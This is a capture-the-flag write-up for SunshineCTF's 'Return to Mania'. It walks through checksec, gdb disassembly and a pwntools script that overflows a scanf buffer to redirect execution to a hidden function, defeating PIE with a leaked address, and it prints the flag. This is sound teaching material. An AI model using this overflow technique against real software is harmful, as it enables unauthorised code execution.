 ## SunshineCTF: Return to Mania
##### *tl;dr: buffer overflow to change instruction pointer*
#### First pwn challenge worth 50 points, we start reconnaissance with ```checksec```:
```
$ checksec return-to-mania
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### From the results, we see that the binary has a non-executable stack, but we can still perform a buffer overflow since there isn't a stack canary in place. Also, we have to note that PIE is enabled which means that the addresses for functions are in a randomized layout. We run the binary to have an initial look on what it does:
```
$ ./return-to-mania
  Welcome to WrestleMania! Type in key to get access.
  addr of welcome(): 0x5658c6ed
```
#### We'll be testing this locally for now, but when we run the binary on the challenge server, we get a different address for welcome everytime. So what the binary does is print some stuff out, give us the address for welcome, and wait for user input. To see the inner workings of the binary, we open it in gdb:
```
$ gdb ./return-to-mania
  gdb-peda$ disas main
    Dump of assembler code for function main:
     0x00000746 <+0>:	  lea    ecx,[esp+0x4]
     0x0000074a <+4>:	  and    esp,0xfffffff0
     0x0000074d <+7>:	  push   DWORD PTR [ecx-0x4]
     0x00000750 <+10>:	  push   ebp
     0x00000751 <+11>:	  mov    ebp,esp
     0x00000753 <+13>:	  push   ebx
     0x00000754 <+14>:	  push   ecx
     0x00000755 <+15>:	  call   0x560 <__x86.get_pc_thunk.bx>
     0x0000075a <+20>:	  add    ebx,0x13f2
     0x00000760 <+26>:	  call   0x6ed <welcome>
     0x00000765 <+31>:	  sub    esp,0xc
     0x00000768 <+34>:	  lea    eax,[ebx-0x12cc]
     0x0000076e <+40>:	  push   eax
     0x0000076f <+41>:	  call   0x4d0 <puts@plt>
     0x00000774 <+46>:	  add    esp,0x10
     0x00000777 <+49>:	  mov    eax,0x0
     0x0000077c <+54>:	  lea    esp,[ebp-0x8]
     0x0000077f <+57>:	  pop    ecx
     0x00000780 <+58>:	  pop    ebx
     0x00000781 <+59>:	  pop    ebp
     0x00000782 <+60>:	  lea    esp,[ecx-0x4]
     0x00000785 <+63>:	  ret    
   End of assembler dump.
```
#### Basically, the main function just heads on to call the welcome function, so that's what we have to focus on disassembling. 
```
 gdb-peda$ disas welcome
   Dump of assembler code for function welcome:
     0x000006ed <+0>:	  push   ebp
     0x000006ee <+1>:	  mov    ebp,esp
     0x000006f0 <+3>:	  push   ebx
     0x000006f1 <+4>:	  sub    esp,0x14
     0x000006f4 <+7>:	  call   0x560 <__x86.get_pc_thunk.bx>
     0x000006f9 <+12>:	  add    ebx,0x1453
     0x000006ff <+18>:	  sub    esp,0xc
     0x00000702 <+21>:	  lea    eax,[ebx-0x131c]
     0x00000708 <+27>:	  push   eax
     0x00000709 <+28>:	  call   0x4d0 <puts@plt>
     0x0000070e <+33>:	  add    esp,0x10
     0x00000711 <+36>:	  sub    esp,0x8
     0x00000714 <+39>:	  lea    eax,[ebx-0x145f]
     0x0000071a <+45>:	  push   eax
     0x0000071b <+46>:	  lea    eax,[ebx-0x12e8]
     0x00000721 <+52>:	  push   eax
     0x00000722 <+53>:	  call   0x490 <printf@plt>
     0x00000727 <+58>:	  add    esp,0x10
     0x0000072a <+61>:	  sub    esp,0x8
     0x0000072d <+64>:	  lea    eax,[ebp-0x12]
     0x00000730 <+67>:	  push   eax
     0x00000731 <+68>:	  lea    eax,[ebx-0x12d1]
     0x00000737 <+74>:	  push   eax
     0x00000738 <+75>:	  call   0x500 <__isoc99_scanf@plt>
     0x0000073d <+80>:	  add    esp,0x10
     0x00000740 <+83>:	  nop
     0x00000741 <+84>:	  mov    ebx,DWORD PTR [ebp-0x4]
     0x00000744 <+87>:	  leave  
     0x00000745 <+88>:	  ret    
  End of assembler dump.
```
#### Analyzing the instructions, we see puts and printf being called, which we know just prints the stuff that we see when we start the binary. What we do want to pay attention to starts at address ```0x0000072a```, we see that the code creates space in the stack and initializes a buffer of 18(0x12) bytes - then we proceed to a ```scanf()``` call which we can exploit by putting in more stuff than it expects. By inputting 18 bytes of input and adding 4 additional bytes, we can now be able to overwrite the instruction pointer. But where do we jump to? Let's take a look at the functions that we have.
```
gdb-peda$ info functions
  [...]
  0x0000065d  mania
  0x000006ed  welcome
  0x00000746  main
  [...]
```
#### We see the ```mania``` function, but we don't see it get executed in the main function, so this is what we want to jump into and execute. We need to consider that the binary has its ASLR feature turned on, but that won't be a problem - since the offset between the addresses of each function is always the same. The addresses of the functions mania and welcome have a difference of 144, what we can do with this is whenever we're presented with the address of the welcome function in the start of the challenge, we can subtract 144 from it and we get the address for mania. So let's create our exploit script:
##### exploit.py  
```python
#: Connect to challenge server
HOST = 'ret.sunshinectf.org' 
PORT = 4301
p = remote(HOST,PORT)
prompt = p.recv()

#: Exploit code
offset = 'A' * 22
welcome_addr = int(prompt.splitlines()[1].split()[-1],16)
mania_addr = p32(welcome_addr - 144)
exploit = offset + mania_addr

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Then we run it to get the flag!
```
$ python exploit.py
    WELCOME TO THE RING!
    sun{0V3rfl0w_rUn_w!Ld_br0th3r}
```
